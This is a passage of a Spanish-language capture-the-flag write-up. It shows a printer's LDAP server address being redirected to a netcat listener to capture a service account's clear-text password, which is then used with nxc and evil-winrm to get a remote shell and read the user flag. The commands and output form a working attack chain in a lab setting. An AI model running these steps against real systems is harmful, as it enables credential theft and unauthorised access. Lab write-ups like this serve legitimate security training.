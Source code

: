 <figure><img src="../../../.gitbook/assets/4028_vmware_69gNXweD3d.png" alt=""><figcaption></figcaption></figure>

Verificamos que recibimos la autenticación del usuario `svc-printer` con su contraseña. Al modificar el `Server Address` por el nuestro, la impresora ha realizado la autenticación en nuestro equipo, mostrándonos las credenciales en texto plano al no haber un LDAP por atrás que valide estas credenciales.

```bash
❯ nc -nlvp 389
listening on [any] 389 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.108] 58464
0*`%return\svc-printer�
                       1edFg43012!!
```

### Abusing WinRM - EvilWinRM

Verificaremos si estas credenciales son válidas para el usuario. Verificamos que logramos comprobar y también conectarnos al equipo mediante `evil-winrm` y visualizar la flag de **user.txt**.

```bash
❯ nxc smb 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'
SMB         10.10.11.108    445    PRINTER          [*] Windows 10 / Server 2019 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)
SMB         10.10.11.108    445    PRINTER          [+] return.local\svc-printer:1edFg43012!! 

❯ evil-winrm -i 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-printer\Documents> type ../Desktop/user.txt
7f9f0efb4b**********************
```
